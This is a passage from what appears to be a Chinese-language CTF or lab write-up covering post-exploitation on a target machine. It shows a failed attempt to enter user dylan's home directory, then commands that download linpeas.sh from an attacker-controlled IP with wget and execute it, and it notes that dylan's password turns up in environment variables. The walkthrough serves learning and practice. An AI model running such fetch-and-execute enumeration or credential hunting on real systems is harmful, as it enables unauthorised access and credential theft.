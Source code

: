 存在dylan用户

尝试进入dylan家目录

```
ls
cd dylan
```

![image-20250324090924851](./assets/image-20250324090924851.png)

失败



### 上传linpeas.sh

```
wget 192.168.23.134/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![image-20250324091258974](./assets/image-20250324091258974.png)

![image-20250324091350200](./assets/image-20250324091350200.png)

![image-20250324091357868](./assets/image-20250324091357868.png)

### env中存在dylan的密码
